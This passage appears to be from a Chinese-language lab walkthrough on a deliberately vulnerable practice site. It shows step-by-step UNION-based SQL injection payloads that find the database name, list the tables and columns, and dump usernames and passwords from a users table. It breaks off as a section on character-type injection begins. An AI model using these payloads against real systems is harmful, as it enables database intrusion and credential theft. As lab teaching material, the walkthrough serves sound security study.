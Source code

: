 ![image-20220124203608159](https://gitee.com/xxb667/img/raw/master/img/image-20220124203608159.png)

```
获得当前数据库 
id=-1 union select 1,database()
```

![image-20220124203726952](https://gitee.com/xxb667/img/raw/master/img/image-20220124203726952.png)

### 爆表

显示数据库中的所有表

```
#爆表【httpinfo,member,message,users,xssblind】 

id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() 
```

![image-20220124204110883](https://gitee.com/xxb667/img/raw/master/img/image-20220124204110883.png)

### 爆列

得到表中的所有列名

```
#爆列【...user,password,...】 
#得到users表中的所有列
id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' 

```

![image-20220124204335590](https://gitee.com/xxb667/img/raw/master/img/image-20220124204335590.png)

### 爆值

得到表中的值

```
#爆值：得到users表中的名字和密码
id=-1 union select 1,concat_ws('-',username,password) from users
```

![image-20220124204546372](https://gitee.com/xxb667/img/raw/master/img/image-20220124204546372.png)

## 4.4.字符型注入（get）

### 判断类别

利用hackbar

使用的select语句
